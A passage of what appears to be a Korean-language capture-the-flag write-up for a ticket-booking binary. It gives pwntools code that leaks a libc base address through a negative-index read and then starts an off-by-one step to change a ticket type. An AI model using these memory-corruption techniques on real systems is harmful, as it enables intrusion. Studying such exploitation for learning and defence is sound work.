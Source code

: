 ```python
        Use(idx, 1)
    Use(idx, 2)
    Use(idx, 3)
```

## 라이브러리 주소 노출

```python
def View(idx):
    log.info(p.sendafter("choice: ", "2"))
    log.info(p.sendafter("Index of ticket: ", str(idx)) + str(idx))
    # leak (lib_base)
    if idx < 0:
        log.info(p.recvuntil("|name |"))
        lib_base = u64(p.recvline()[-9:-3].ljust(8, '\x00')
                       ) - 0x83 - l.sym['_IO_2_1_stderr_']
        log.info("lib_base : " + hex(lib_base) )
        return lib_base
    else:
        log.info(p.recvuntil("==========================\n"))
        log.info(p.recvuntil("==========================\n"))
```

![./20.png](./20.png)

라이브러리 주소

## off-by-one을 바탕으로 ticket_type 0으로 변경

```python
Buy(1, "AAAA", "BBBBBBBB")
Buy(2, "AAAA", "BBBB")
```

![./21.png](./21.png)
